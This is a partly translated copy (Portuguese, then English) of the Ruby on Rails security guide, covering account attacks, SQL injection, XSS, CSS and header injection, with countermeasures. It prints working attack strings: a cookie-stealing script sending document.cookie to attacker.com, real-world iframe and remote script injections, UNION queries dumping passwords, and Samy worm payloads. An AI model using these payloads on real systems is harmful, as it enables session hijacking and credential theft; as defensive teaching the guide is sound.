Existem alguns plugins para autorização e autenticação disponíveis para o Rails. Um que seja bom deverá salvar apenas passwords encriptados, não passwords em claro. O plugin mais popular é o restfulauthentication_, o qual também possui proteção contra fixação de sessão. Entretanto, versões mais antigas permitiam que você se logassse sem um nome de usuário ou password em algumas circunstâncias.
Cada novo usuário ganha um código de ativação para ativar sua conta quando recebe um email contendo um link. Após ativar a conta, a coluna com o código de ativação terá seu valor atualizado para NULL no banco de dados. Every new user gets an activation code to activate his account when he gets an e-mail with a link in it. After activating the account, the activation_code columns will be set to NULL in the database. If someone requested an URL like these, he would be logged in as the first activated user found in the database (and chances are that this is the administrator):
http://localhost:3006/user/activate http://localhost:3006/user/activate?id=
Isso é possível porque em alguns servidores, caso o parâmetro id seja informado dessa forma, ele será nil quando acessado através de params[:id]. Entretanto, aqui está o finder utilizado na action de ativação:
User.find_by_activation_code(params[:id])
Se o parâmetro for nil, o SQL resultante seria
SELECT * FROM users WHERE (users.<notextile><tt>activation_code</tt></notextile> IS NULL) LIMIT 1
encontrando assim o primeiro usuário no banco de dados, retornando-o e logando-o. Você pode encontrar mais informações sobre isso no post do meu blog. É aconselhável atualizar seus plugins frequentemente. Além disso, você pode revisar sua aplicação para encontrar mais falhas como esta.
7.1 Ataques de força bruta contra contas
— Ataques de fora bruta sobre contas são ataques de tentativa e erro contra as credenciais de loging. Defenda-se destes ataques utilizando mensagens de erro mais genéricas e possivelmente solicitando que seja informado um CAPTCHA.
Uma lista com os nomes de usuário da sua aplicação pode ser mal utilizada, usando-se força bruta para tentar descobrir os respectivos passwords, porque a maioria das pessoas não utiliza passwords sofisticados. A maioria dos passwords são uma combinação de palavras do dicionário e possivelmente números. Assim, de posse de uma lista com os nomes de usuários e um dicionário, um programa automático pode encontrar o password correto em questão de minutos.
Devido a este fato, a maioria das aplicações web exibirão uma mensagem de erro genérica “nome de usuário ou password incorretos”, caso um destes esteja incorreto. Se fosse exibida uma mensagem dizendo “o nome de usuário que você forneceu não foi encontrado”, um atacante poderia automaticamente criar uma lista de nomes de usuários.
Entretanto, o que a maioria dos projetistas de aplicações web negligenciam, são as páginas para passwords esquecidos. estas páginas comumente admitem que o nome de usuário ou endereço de email fornecido (não) foi encontrado. Isso permite que o atacante crie uma lista de nomes de usuários e utilize força bruta contra as respectivas contas.
Para atenuar tais ataques, exiba uma mensagem de erro genérica também nas páginas para passwords esquecidos. Além disso, você pode solicitar que seja informado um CAPTCHA após um certo número de falhas de autenticação vindas de um determinado endereço IP. Note, entretanto, que esta não é uma solução à prova de balas contra programas automáticos, porque estes programas podem alterar seus endereços de IP exatamente na mesma frequência. De qualquer forma, isso dificulta os ataques.
7.2 Sequestro de conta
— Muitas aplicações web tornam fácil sequestrar contas de usuários. Porque não ser diferente e tornar isso mais difícil?
7.2.1 Passwords
Pense em uma situação onde um atacante roubou o cookie de sessão de um usuário e dessa forma pode compartilhar a utilização da aplicação. Se alterar o password for algo simples, o atacante irá sequestrar a conta com apenas alguns cliques. Ou se o formulário para alteração do password for vulnerável a CSRF, o atacante será capaz de alterar o password da vítima ludibriando-a até uma página web com uma tag IMG manipulada, a qual executa o CSRF. Como medida preventiva, faça com que o formulário para troca de password seja protegido contra CSRF, óbvio. E exija que o usuário informe o password antigo quando for mudá-lo.
7.2.2 E-Mail
Entretanto, o atacante também pode roubar a conta alterando o endereço de email. Após alterá-lo, ele irá para a página de password esquecido e o (possivelmente novo) password será enviado para o endereço de email do atacante. Como medida preventiva solicite que o usuário também informe seu password quando for alterar seu endereço de email.
7.2.3 Outros
Dependendo da sua aplicação web, podem haver mais formas de sequestrar a conta de um usuário. Em muitos casos XSS e CSRF ajudarão nisto. Por exemplo, como uma vulnerabilidade no Google Mail. Neste ataque de prova de conceito, a vítima seria levada a um web site controlado pelo atacante. Neste site existe uma tag IMG preparada que resultada em um request HTTP GET que altera as configurações de filtros do Google Main. Se a vítima estiver logada no Google Mail, o atacante poderia alterar os filtros para redirecionar todos os emails para o seu endereço de email. Isso é praticamente tão danoso quanto capturar toda a conta. Como uma medidaa preventiva, reveja a lógica da sua aplicação e elimine todas as vulnerábilidades de XSS e CSRF.
7.3 CAPTCHAs
— _Um CAPTCHA é um teste do tipo desafio-resposta usado para determinar que a resposta não foi gerada por um computador. É geralmente utilizado para proteger formulários de comentários de bots de spam automáticos, solicitando ao usuário que digite as letras presentes em uma imagem distorcida. A idéia de um CAPTCHA negativo não é pedir que um usuário prove que é humano, mas sim revelar que um robô realmente é um robô.
Mas robôs de spam (bots) não são o único problema, existem também os bots de login automático. Uma API para CAPTCHA popular é a reCAPTCHA a qual exibe duas imagens distorcidas de palavras de livros antigos. Também adiciona uma linha inclinada, ao invés de um fundo distorcido e letras deformadas como os primeiros CAPTCHAS fizeram, porque o segundo caso tinha problemas. Como um bonus, utilizar reCAPTCHA ajuda a digitalizar livros antigos. O ReCAPTCHA é também um plugin para o Rails com o mesmo nome da API.
Você vai receber duas chaves da API, uma pública e outra privada, a qual você deve colocar no eu ambiente Rails. Após isso vocë pode utilizar o método recaptcha_tags na sua view e o método verify_recaptcha no controller. verify_recaptcha retornará false caso a validação falhe. O problema com CAPTCHA é que eles sào irritantes. Além disso, alguns usuários com deficiências visuais têm achado certos tipos de CAPTCHAs distorcidos difíceis de ler. A idéia de CAPTCHAs negativos não é pedir ao usuário uma prova de que ele é humano, mas revelar que um robô de spam é um bot.
A maioria dos bots é realmente burra, eles rastreiam a web e colocam spam em cada campo de formulário que eles conseguem encontrar. CAPTCHAs negativos usam isso como vantagem e incluem um campo “honeypot” no formulário que ficará escondido de usuários humanos através de CSS ou JavaScript.
Aqui estão algumas idéias de como esconder campos “honeypot” através de JavaScript e/ou CSS:
- posicione os campos fora da área visível da página
- torne os elementos muito pequenos ou dê a eles a mesma cor do background da página
- exiba os campos, mas diga aos humanos que deixe-os vazios
O CAPTCHA negativo mais simples é um campo “honeypot” escondido. Do lado servidor, você irá verificar o valor do campo: se ele contiver qualquer texto, deve ser um bot. Assim, você pode tanto ignorar o post ou retornar um resultado positivo, mas não salvar o post no banco de dados. Dessa forma o bot ficará satisfeito e seguirá adiante. Você pode fazer isso com usuários que causam problemas também.
Você pode encontrar CAPTCHAs negativos mais sofisticados no post do blog do Ned Batchelder’s
- Inclua um campo com o timestamp UTC atual e verifique-o no servidor. Se o valor estiver muito distante no passado, ou se estiver no futuro, o formulário é inválido.
- Randomize o nome dos campos
- Inclua mais de um campo “honeypot”, de todos os tipos, incluindo botões para submissão dos formulários.
Note que isso lhe protege apenas de bots automatizados, bots específicos feitos sob encomenda não podem ser parados dessa forma. Logo CAPTCHAs negativos podem não ser bons para proteger formulários de login.
7.4 Logging
— Diga ao Rails para não colocar passwords nos arquivos de log.
Por padrão, o Rails loga todos os requests feitos para a aplicação web. Porém, arquivos de log podem ser um grande problema de segurança, uma vez que podem conter credenciais de login, números de cartão de crédito, etc. Quando estiver modelando os conceitos de segurança de uma aplicação web, você deve pensar também sobre o que acontece caso um atacante consiga acesso (total) ao servidor web. Criptografar segredos e passwords no banco de dados será praticamente inútil se os arquivos de log listá-los em claro. Você pode filtrar certos parâmetros do request para que nào sejam gravados nos seus arquivos de log utilizando o método filter_parameter_logging em um controller. Estes parâmetros seram marcados como [FILTERED] no log.
filter_parameter_logging :password
7.5 Bons passwords
— Você acha difícil lembrar de todos os seus passwords? Ao invés de escrevê-los em um papel, utilize a letra inicial de cada palavra em uma frase fácil de lembrar.
Bruce Schneier, um especialista em segurança, analisou 34.000 nomes de usuários e passwords reais do ataque de phishing ao MySpace mencionado anteriormente. Ele descobriu que a maioria dos passwords são relativamente fáceis de quebrar. Os 20 passwords mais comuns são:
password1, abc123, myspace1, password, blink182, qwerty1, ****you, 123abc, baseball1, football1, 123456, soccer, monkey1, liverpool1, princess1, jordan23, slipknot1, superman1, iloveyou1 and monkey.
É interessante que apenas 4% destes passwords são palavras encontradas em dicionários e a grande maioria é alfa-numérica. Entretanto, dicionários para quebra de passwords contêm boa parte dos passwords atualmente utilizados e eles tentam todos os tipos de combinações. Se um atacante souber seu nome de usuário e você usar um password fraco, sua conta será facilmente roubada.
Um bom password é uma longa combinação alfa-numérica de caracteres maiúsculos e minúsculos. Uma vez que passwords deste tipo são bem difíceis de lembrar, é aconselhável informar apenas as primeiras letras de uma frase fácil de lembrar. Por exemplo “Mais vale um pássaro na mão do que dois voando” seria “Mvupnmdqdv”. Perceba que este é apenas um exemplo, você não deve utilizar frases tão conhecidas quanto essa, uma vez que essas frases também podem estar presentes em um dicionário para quebra de passwords.
7.6 Expressões regulares
— Um problema comum em expressões regulares no Ruby é casar o início e o fim de uma string com ^ e $, ao invés de \A e \z.
O Ruby utiliza uma abordagem um pouco diferente de várias outras linguagens para casar o início e o fim de uma string. É por isso que até mesmo vários livros sobre Ruby e Rails explicam isso de forma errada. Mas como isso pode ser uma ameaça de segurança? Imagine que você tenha um model File e você valide o nome do arquivo usando uma expressão regular como esta:
class File < ActiveRecord::Base
validates_format_of :name, :with => /^[\w\.\-\+]+$/
end
Isso siginifica que, ao salvar, o model irá validar que o nome do arquivo consiste apenas de caracteres alfa-numéricos, pontos, + e -. O programador adicionou \^ e $ de forma que o nome do arquivo contenha estes caracteres do início ao fim da string. Entretanto, em ruby ^ e $ casam o início e fim da linha. Dessa forma, um nome de arquivo como o seguinte passa pela validação sem problemas:
file.txt%0A<script>alert('hello')</script>
Onde %0A é uma nova linha em codificação de URL, logo o Rails irá converter isso automaticamente para “file.txt\n<script>alert(‘hello’)</script>”. Este nome de arquivo passa pelo filtro porque a expressão regular casa com a string – até o final da linha, e o resto não importa. A expressão correta seria:
/\A[\w\.\-\+]+\z/
7.7 Aumento de privilégios
— Alterar um único parâmetro pode permitir acesso não autorizado ao usuário. Lembre-se de que todo parâmetro pode ser alterado, não importa o quanto você o esconda ou obfusque.
O parâmetro mais comum que o usuário pode alterar é o parâmetro id, como em ":id":http://www.domain.com/project/1, onde 1 é o id. Esse parâmetro estará disponível no params no seu controller. Lá, você provavelmente fará algo como isso:
@project = Project.find(params[:id])
Isso está correto para algumas aplicações web, mas provavelmente não está certo se o usuário não estiver autorizado a visualizar todos os projetos. Se o usuário alterar o id para 42, e ele não estiver autorizado a visualizar essas informações, ele terá acesso a isso de qualquer forma. Ao invés disso, pesquise também as permissões de acesso do usuário:
@project = @current_user.projects.find(params[:id])
Dependendo da sua aplicação web, podem existir muitos outros parâmetros que o usuário pode alterar. Como regra, nenhuma informação fornecida pelo usuário é segura, até prova contrária, e todo parâmetro vindo do usuário foi possivelmente manipulado.
Não se engaane com segurança através de obfuscação e JavaScript. O plugin Web Developer Toolbar para o Mozilla Firefox permite que você altere todos os campos escondidos de um formulário. JavaScript pode ser utilizado para validar os dados fornecidos por usuários, mas certamente não impedem que atacantes enviem requests inesperados com valores maliciosos. O Live Http Headers para o Mozilla Firefox faz log de cada request e é capaz de repeti-los e alterá-los. Essa é uma forma fácil de burlar validações de JavaScript. Existem até mesmo proxies para o lado cliente que permitem que você intercepte qualquer request e response provenientes da Internet ou sendo enviados para ela.
8 Injeção
— _Injeção é uma categoria de ataques que introduzem código malicioso ou parâmetros em uma aplicação web de forma a executar estes códigos dentro do contexto de segurança da aplicação. Os exemplos mais proeminentes de injeção são o cross-site scriptintg (XSS) e o SQL injection.
PAREI AQUI
Injection is very tricky, because the same code or parameter can be malicious in one context, but totally harmless in another. A context can be a scripting, query or programming language, the shell or a Ruby/Rails method. The following sections will cover all important contexts where injection attacks may happen. The first section, however, covers an architectural decision in connection with Injection.
8.1 Whitelists versus Blacklists
— When sanitizing, protecting or verifying something, whitelists over blacklists.
A blacklist can be a list of bad e-mail addresses, non-public actions or bad HTML tags. This is opposed to a whitelist which lists the good e-mail addresses, public actions, good HTML tags and so on. Although, sometimes it is not possible to create a whitelist (in a SPAM filter, for example), prefer to use whitelist approaches:
- Use before_filter :only => […] instead of :except => […]. This way you don’t forget to turn it off for newly added actions.
- Use attr_accessible instead of attr_protected. See the mass-assignment section for details
- Allow <strong> instead of removing <script> against Cross-Site Scripting (XSS). See below for details.
- Don’t try to correct user input by blacklists:
- This will make the attack work: “<sc<script>ript>”.gsub(“<script>”, "")
- But reject malformed input
Whitelists are also a good approach against the human factor of forgetting something in the blacklist.
8.2 SQL Injection
— Thanks to clever methods, this is hardly a problem in most Rails applications. However, this is a very devastating and common attack in web applications, so it is important to understand the problem.
8.2.1 Introduction
SQL injection attacks aim at influencing database queries by manipulating web application parameters. A popular goal of SQL injection attacks is to bypass authorization. Another goal is to carry out data manipulation or reading arbitrary data. Here is an example of how not to use user input data in a query:
Project.find(:all, :conditions => "name = '#{params[:name]}'")
This could be in a search action and the user may enter a project’s name that he wants to find. If a malicious user enters ’ OR 1=1’, the resulting SQL query will be:
SELECT * FROM projects WHERE name = '' OR 1 --'
The two dashes start a comment ignoring everything after it. So the query returns all records from the projects table including those blind to the user. This is because the condition is true for all records.
8.2.2 Bypassing authorization
Usually a web application includes access control. The user enters his login credentials, the web applications tries to find the matching record in the users table. The application grants access when it finds a record. However, an attacker may possibly bypass this check with SQL injection. The following shows a typical database query in Rails to find the first record in the users table which matches the login credentials parameters supplied by the user.
User.find(:first, "login = '#{params[:name]}' AND password = '#{params[:password]}'")
If an attacker enters ’ OR ‘1’=‘1 as the name, and ’ OR ’2’>’1 as the password, the resulting SQL query will be:
SELECT * FROM users WHERE login = '' OR '1'='1' AND password = '' OR '2'>'1' LIMIT 1
This will simply find the first record in the database, and grants access to this user.
8.2.3 Unauthorized reading
The UNION statement connects two SQL queries and returns the data in one set. An attacker can use it to read arbitrary data from the database. Let’s take the example from above:
Project.find(:all, :conditions => "name = '#{params[:name]}'")
And now let’s inject another query using the UNION statement:
') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --
This will result in the following SQL query:
SELECT * FROM projects WHERE (name = '') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --')
The result won’t be a list of projects (because there is no project with an empty name), but a list of user names and their password. So hopefully you encrypted the passwords in the database! The only problem for the attacker is, that the number of columns has to be the same in both queries. That’s why the second query includes a list of ones (1), which will be always the value 1, in order to match the number of columns in the first query.
Also, the second query renames some columns with the AS statement so that the web application displays the values from the user table. Be sure to update your Rails to at least 2.1.1.
8.2.4 Countermeasures
Ruby on Rails has a built in filter for special SQL characters, which will escape ’ , " , NULL character and line breaks. Using Model.find(id) or Model.findby_some thing(something) automatically applies this countermeasure_. But in SQL fragments, especially in conditions fragments (:conditions => “…”), the connection.execute() or Model.findby_sql() methods, it has to be applied manually_.
Instead of passing a string to the conditions option, you can pass an array to sanitize tainted strings like this:
Model.find(:first, :conditions => ["login = ? AND password = ?", entered_user_name, entered_password])
As you can see, the first part of the array is an SQL fragment with question marks. The sanitized versions of the variables in the second part of the array replace the question marks. Or you can pass a hash for the same result:
Model.find(:first, :conditions => {:login => entered_user_name, :password => entered_password})
The array or hash form is only available in model instances. You can try sanitize_sql() elsewhere. Make it a habit to think about the security consequences when using an external string in SQL.
8.3 Cross-Site Scripting (XSS)
— The most widespread, and one of the most devastating security vulnerabilities in web applications is XSS. This malicious attack injects client-side executable code. Rails provides helper methods to fend these attacks off.
8.3.1 Entry points
An entry point is a vulnerable URL and its parameters where an attacker can start an attack.
The most common entry points are message posts, user comments, and guest books, but project titles, document names and search result pages have also been vulnerable – just about everywhere where the user can input data. But the input does not necessarily have to come from input boxes on web sites, it can be in any URL parameter – obvious, hidden or internal. Remember that the user may intercept any traffic. Applications, such as the Live HTTP Headers Firefox plugin, or client-site proxies make it easy to change requests.
XSS attacks work like this: An attacker injects some code, the web application saves it and displays it on a page, later presented to a victim. Most XSS examples simply display an alert box, but it is more powerful than that. XSS can steal the cookie, hijack the session; redirect the victim to a fake website, display advertisements for the benefit of the attacker, change elements on the web site to get confidential information or install malicious software through security holes in the web browser.
During the second half of 2007, there were 88 vulnerabilities reported in Mozilla browsers, 22 in Safari, 18 in IE, and 12 in Opera. The Symantec Global Internet Security threat report also documented 239 browser plug-in vulnerabilities in the last six months of 2007. Mpack is a very active and up-to-date attack framework which exploits these vulnerabilities. For criminal hackers, it is very attractive to exploit an SQL-Injection vulnerability in a web application framework and insert malicious code in every textual table column. In April 2008 more than 510,000 sites were hacked like this, among them the British government, United Nations and many more high targets.
A relatively new, and unusual, form of entry points are banner advertisements. In earlier 2008, malicious code appeared in banner ads on popular sites, such as MySpace and Excite, according to Trend Micro.
8.3.2 HTML/JavaScript Injection
The most common XSS language is of course the most popular client-side scripting language JavaScript, often in combination with HTML. Escaping user input is essential.
Here is the most straightforward test to check for XSS:
<script>alert('Hello');</script>
This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
8.3.2.1 Cookie theft
These examples don’t do any harm so far, so let’s see how an attacker can steal the user’s cookie (and thus hijack the user’s session). In JavaScript you can use the document.cookie property to read and write the document’s cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The document.cookie property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:
<script>document.write(document.cookie);</script>
For an attacker, of course, this is not useful, as the victim will see his own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review his web server’s access log files to see the victims cookie.
<script>document.write('<img src="http://www.attacker.com/' <notextile><tt> document.cookie </tt></notextile> '">');</script>
The log files on www.attacker.com will read like this:
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
You can mitigate these attacks (in the obvious way) by adding the httpOnly flag to cookies, so that document.cookie may not be read by JavaScript. Http only cookies can be used from IE v6.SP1, Firefox v2.0.0.5 and Opera 9.5. Safari is still considering, it ignores the option. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies will still be visible using Ajax, though.
8.3.2.2 Defacement
With web page defacement an attacker can do a lot of things, for example, present false information or lure the victim on the attackers web site to steal the cookie, login credentials or other sensitive data. The most popular way is to include code from external sources by iframes:
<iframe name=”StatPage” src="http://58.xx.xxx.xxx" width=5 height=5 style=”display:none”></iframe>
This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This iFrame is taken from an actual attack on legitimate Italian sites using the Mpack attack framework. Mpack tries to install malicious software through security holes in the web browser – very successfully, 50% of the attacks succeed.
A more specialized attack could overlap the entire web site or display a login form, which looks the same as the site’s original, but transmits the user name and password to the attackers site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one at its place which redirects to a fake web site.
Reflected injection attacks are those where the payload is not stored to present it to the victim later on, but included in the URL. Especially search forms fail to escape the search string. The following link presented a page which stated that “George Bush appointed a 9 year old boy to be the chairperson…”:
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1--> <script src=http://www.securitylab.ru/test/sc.js></script><!--
8.3.2.3 Countermeasures
It is very important to filter malicious input, but it is also important to escape the output of the web application.
Especially for XSS, it is important to do whitelist input filtering instead of blacklist. Whitelist filtering states the values allowed as opposed to the values not allowed. Blacklists are never complete.
Imagine a blacklist deletes “script” from the user input. Now the attacker injects “<scrscriptipt>”, and after the filter, “<script>” remains. Earlier versions of Rails used a blacklist approach for the strip_tags(), strip_links() and sanitize() method. So this kind of injection was possible:
strip_tags("some<<b>script>alert('hello')<</b>/script>")
This returned “some<script>alert(‘hello’)</script>”, which makes an attack work. That’s why I vote for a whitelist approach, using the updated Rails 2 method sanitize():
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p) s = sanitize(user_input, :tags => tags, :attributes => %w(href title))
This allows only the given tags and does a good job, even against all kinds of tricks and malformed tags.
As a second step, it is good practice to escape all output of the application, especially when re-displaying user input, which hasn’t been input filtered (as in the search form example earlier on). Use escapeHTML() (or its alias h()) method to replace the HTML input characters &,",<,> by its uninterpreted representations in HTML (&, ", < and >). However, it can easily happen that the programmer forgets to use it, so it is recommended to use the SafeErberb/ plugin_. SafeErb reminds you to escape strings from external sources.
8.3.2.4 Obfuscation and Encoding Injection
Network traffic is mostly based on the limited Western alphabet, so new character encodings, such as Unicode, emerged, to transmit characters in other languages. But, this is also a threat to web applications, as malicious code can be hidden in different encodings that the web browser might be able to process, but the web application might not. Here is an attack vector in UTF-8 encoding:
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97; &#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
This example pops up a message box. It will be recognized by the above sanitize() filter, though. A great tool to obfuscate and encode strings, and thus “get to know your enemy”, is the Hackvertor. Rails‘ sanitize() method does a good job to fend off encoding attacks.
8.3.3 Examples from the underground
In order to understand today’s attacks on web applications, it’s best to take a look at some real-world attack vectors.
The following is an excerpt from the Js.Yamanner@m Yahoo! Mail worm. It appeared on June 11, 2006 and was the first webmail interface worm:
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
target=""onload="var http_request = false; var Email = '';
var IDList = ''; var CRumb = ''; function makeRequest(url, Func, Method,Param) { ...
The worms exploits a hole in Yahoo’s HTML/JavaScript filter, it usually filters all target and onload attributes from tags (because there can be JavaScript). The filter is applied only once, however, so the onload attribute with the worm code stays in place. This is a good example why blacklist filters are never complete and why it is hard to allow HTML/JavaScript in a web application.
Another proof-of-concept webmail worm is Nduja, a cross-domain worm for four Italian webmail services. Find more details and a video demonstration on Rosario Valotta’s website. Both webmail worms have the goal to harvest email addresses, something a criminal hacker could make money with.
In December 2006, 34,000 actual user names and passwords were stolen in a MySpace phishing attack. The idea of the attack was to create a profile page named “login_home_index_html”, so the URL looked very convincing. Specially-crafted HTML and CSS was used to hide the genuine MySpace content from the page and instead display its own login form.
The MySpace Samy worm will be discussed in the CSS Injection section.
8.4 CSS Injection
— CSS Injection is actually JavaScript injection, because some browsers (IE, some versions of Safari and others) allow JavaScript in CSS. Think twice about allowing custom CSS in your web application.
CSS Injection is explained best by a well-known worm, the MySpace Samy worm. This worm automatically sent a friend request to Samy (the attacker) simply by visiting his profile. Within several hours he had over 1 million friend requests, but it creates too much traffic on MySpace, so that the site goes offline. The following is a technical explanation of the worm.
MySpace blocks many tags, however it allows CSS. So the worm’s author put JavaScript into CSS like this:
<div style="background:url('javascript:alert(1)')">
So the payload is in the style attribute. But there are no quotes allowed in the payload, because single and double quotes have already been used. But JavaScript allows has a handy eval() function which executes any string as code.
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
The eval() function is a nightmare for blacklist input filters, as it allows the style attribute to hide the word “innerHTML”:
alert(eval('document.body.inne' + 'rHTML'));
The next problem was MySpace filtering the word “javascript”, so the author used “java<NEWLINE>script" to get around this:
<div id="mycode" expr="alert('hah!')" style="background:url('java↵
script:eval(document.all.mycode.expr)')">
Another problem for the worm’s author were CSRF security tokens. Without them he couldn’t send a friend request over POST. He got around it by sending a GET to the page right before adding a the user and parsing the result for the CSRF token.
In the end, he got a 4 KB worm, which he injected into his profile page.
The moz-binding CSS property proved to be another way to introduce JavaScript in CSS in Gecko-based browsers (Firefox, for example).
8.4.1 Countermeasures This example, again, showed that a blacklist filter is never complete. However, as custom CSS in web applications is a quite rare feature, I am not aware of a whitelist CSS filter. If you want to allow custom colours or images, you can allow the user to choose them and build the CSS in the web application. Use Rails’ sanitize() method as a model for a whitelist CSS filter, if you really need one.
8.5 Textile Injection
— If you want to provide text formatting other than HTML (due to security), use a mark-up language which is converted to HTML on the server-side. RedCloth is such a language for Ruby, but without precautions, it is also vulnerable to XSS.
For example, RedCloth translates test to <em>test<em>, which makes the text italic. However, up to the current version 3.0.4, it is still vulnerable to XSS. Get the all-new version 4 that removed serious bugs. However, even that version has some security bugs, so the countermeasures still apply. Here is an example for version 3.0.4:
>> RedCloth.new('<script>alert(1)</script>').to_html
=> "<script>alert(1)</script>"
Use the :filter_html option to remove HTML which was not created by the Textile processor.
>> RedCloth.new('<script>alert(1)</script>', [:filter_html]).to_html
=> "alert(1)"
However, this does not filter all HTML, a few tags will be left (by design), for example <a>:
>> RedCloth.new("<a href='javascript:alert(1)'>hello</a>", [:filter_html]).to_html
=> "<p><a href="javascript:alert(1)">hello</a></p>"
8.5.1 Countermeasures
It is recommended to use RedCloth in combination with a whitelist input filter, as described in the countermeasures against XSS.
8.6 Ajax Injection
— The same security precautions have to be taken for Ajax actions as for “normal” ones. There is at least one exception, however: The output has to be escaped in the controller already, if the action doesn’t render a view.
If you use the in_place_editor plugin, or actions that return a string, rather than rendering a view, you have to escape the return value in the action. Otherwise, if the return value contains a XSS string, the malicious code will be executed upon return to the browser. Escape any input value using the h() method.
8.7 RJS Injection
— Don’t forget to escape in JavaScript (RJS) templates, too.
The RJS API generates blocks of JavaScript code based on Ruby code, thus allowing you to manipulate a view or parts of a view from the server side. If you allow user input in RJS templates, do escape it using escapejavascript() within JavaScript functions, and in HTML parts using h()_. Otherwise an attacker could execute arbitrary JavaScript.
8.8 Command Line Injection
— Use user-supplied command line parameters with caution.
If your application has to execute commands in the underlying operating system, there are several methods in Ruby: exec(command), syscall(command), system(command) and \command. You will have to be especially careful with these functions if the user may enter the whole command, or a part of it. This is because in most shells, you can execute another command at the end of the first one, concatenating them with a semicolon (;) or a vertical bar (|).
A countermeasure is to use the system(command, parameters) method which passes command line parameters safely.
system("/bin/echo","hello; rm *")
# prints "hello; rm *" and does not delete files
8.9 Header Injection — HTTP headers are dynamically generated and under certain circumstances user input may be injected. This can lead to false redirection, XSS or HTTP response splitting.
HTTP request headers have a Referer, User-Agent (client software) and Cookie field, among others. Response headers for example have a status code, Cookie and Location (redirection target URL) field. All of them are user-supplied and may be manipulated with more or less effort. Remember to escape these header fields, too. For example when you display the user agent in an administration area.
Besides that, it is important to know what you are doing when building response headers partly based on user input. For example you want to redirect the user back to a specific page. To do that you introduced a “referer“ field in a form to redirect to the given address:
redirect_to params[:referer]
What happens is that Rails puts the string into the Location header field and sends a 302 (redirect) status to the browser. The first thing a malicious user would do, is this:
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld
And due to a bug in (Ruby and) Rails up to version 2.1.2 (excluding it), a hacker may inject arbitrary header fields; for example like this:
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld%0d%0aX-Header:+Hi! http://www.yourapplication.com/controller/action?referer=path/at/your/app%0d%0aLocation:+http://www.malicious.tld
Note that “%0d%0a” is URL-encoded for “\r\n” which is a carriage-return and line-feed (CRLF) in Ruby. So the resulting HTTP header for the second example will be the following because the second Location header field overwrites the first.
HTTP/1.1 302 Moved Temporarily (...) Location: http://www.malicious.tld
So attack vectors for Header Injection are based on the injection of CRLF characters in a header field. And what could an attacker do with a false redirection? He could redirect to a phishing site that looks the same as yours, but asks to login again (and sends the login credentials to the attacker). Or he could install malicious software through browser security holes on that site. Rails 2.1.2 escapes these characters for the Location field in the redirectto method. Make sure you do it yourself when you build other header fields with user input._
8.9.1 Response Splitting If Header Injection was possible, Response Splitting might be, too. In HTTP, the header block is followed by two CRLFs and the actual data (usually HTML). The idea of Response Splitting is to inject two CRLFs into a header field, followed by another response with malicious HTML. The response will be:
HTTP/1.1 302 Found [First standard 302 response] Date: Tue, 12 Apr 2005 22:09:07 GMT Location: Content-Type: text/html HTTP/1.1 200 OK [Second New response created by attacker begins] Content-Type: text/html <html><font color=red>hey</font></html> [Arbitary malicious input is Keep-Alive: timeout=15, max=100 shown as the redirected page] Connection: Keep-Alive Transfer-Encoding: chunked Content-Type: text/html
Under certain circumstances this would present the malicious HTML to the victim. However, this seems to work with Keep-Alive connections, only (and many browsers are using one-time connections). But you can’t rely on this. In any case this is a serious bug, and you should update your Rails to version 2.0.5 or 2.1.2 to eliminate Header Injection (and thus response splitting) risks.
9 Additional resources
The security landscape shifts and it is important to keep up to date, because missing a new vulnerability can be catastrophic. You can find additional resources about (Rails) security here:
- The Ruby on Rails security project posts security news regularly: http://www.rorsecurity.info
- Subscribe to the Rails security mailing list
- Keep up to date on the other application layers (they have a weekly newsletter, too)
- A good security blog including the Cross-Site scripting Cheat Sheet
- Another good security blog with some Cheat Sheets, too
10 Changelog
- November 1, 2008: First approved version by Heiko Webers